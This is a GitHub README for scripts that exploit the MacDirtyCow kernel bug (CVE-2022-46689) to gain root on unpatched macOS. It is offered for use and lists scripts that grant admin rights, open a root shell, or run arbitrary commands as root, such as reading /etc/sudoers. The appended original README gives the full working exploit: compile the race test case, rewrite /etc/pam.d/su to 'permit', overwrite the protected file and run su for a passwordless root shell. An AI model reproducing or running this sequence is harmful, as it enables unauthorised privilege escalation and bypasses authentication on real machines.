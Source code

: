 # MacDirtyCow Utilities

Scripts to get elevated access using [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (MacDirtyCow).

## Compatability
MacDirtyCow supports the following versions:
- macOS 13.0.1 or under in Ventura
- macOS 12.6.1 or under in Monterey
- macOS 11.7.1 or under

These scripts may get updated to support later versions using [kfd](https://github.com/felix-pb/kfd) ([CVE-2023-23536](https://support.apple.com/en-us/HT213676) and [CVE-2023-32434](https://support.apple.com/en-us/HT213814)), but it is not planned at this time.

## Usage
Download and extract [the zip](https://github.com/DeltAndy123/MacDirtyCow-Utils/archive/refs/heads/main.zip) for this repo or clone this repo, then double click the scripts you want to run.

## Scripts
### [get_admin.command](https://github.com/DeltAndy123/MacDirtyCow-Utils/blob/main/get_admin.command)
This script will allow you to set any user as admin.

### [root_shell.command](https://github.com/DeltAndy123/MacDirtyCow-Utils/blob/main/root_shell.command)
This script will open a shell session as root.

### [elevate.command](https://github.com/DeltAndy123/MacDirtyCow-Utils/blob/main/elevate.command)
This script take parameters and runs them as root.

Examples:
```bash
./elevate.command "cat /etc/sudoers"
./elevate.command "echo \"This command is ran as root\"" "ls /private/var/networkd/Library/Preferences"
```

## Credits
- [MacDirtyCowDemo](https://github.com/zhuowei/MacDirtyCowDemo) to overwrite read-only files without root access

# Original README.md

Get root on macOS 13.0.1 with [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (macOS equivalent of the Dirty Cow bug), using the testcase extracted from [Apple's XNU source](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c).

https://worthdoingbadly.com/macdirtycow/

## Usage
On a macOS 13.0.1 / 12.6.1 (or below) machine, run:

```
clang -o switcharoo vm_unaligned_copy_switch_race.c
sed -e "s/rootok/permit/g" /etc/pam.d/su > overwrite_file.bin
./switcharoo /etc/pam.d/su overwrite_file.bin
su
```

You should get:

```
% ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
RO mapping was modified
% su
sh-3.2# 
```

Tested on macOS 13 beta (22A5266r) with SIP off (it should still work with SIP on).

If your system is fully patched (macOS 13.1 / 12.6.2), it should instead read:

```
$ ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
vm_read_overwrite: KERN_SUCCESS:9865 KERN_PROTECTION_FAILURE:3840 other:0
Ran 13705 times in 10 seconds with no failure
```

and running `su` should still ask for a password.

Thanks to Sealed System Volume, running this on any file on the /System volume only modifies the file temporarily: It's reverted on reboot. Running it on a file on a writeable volume will preserve the modification after a reboot.

## Credits

- Ian Beer of Project Zero for finding the issue. Looking forward to your writeup!
- Apple for the test case. (I didn't change anything: I just added the command line parameter to control what to overwrite.)
- [SSLab@Gatech](https://gts3.org/assets/papers/2020/jin:pwn2own2020-safari-slides.pdf) for the trick to disable password checking using `/etc/pam.d`.
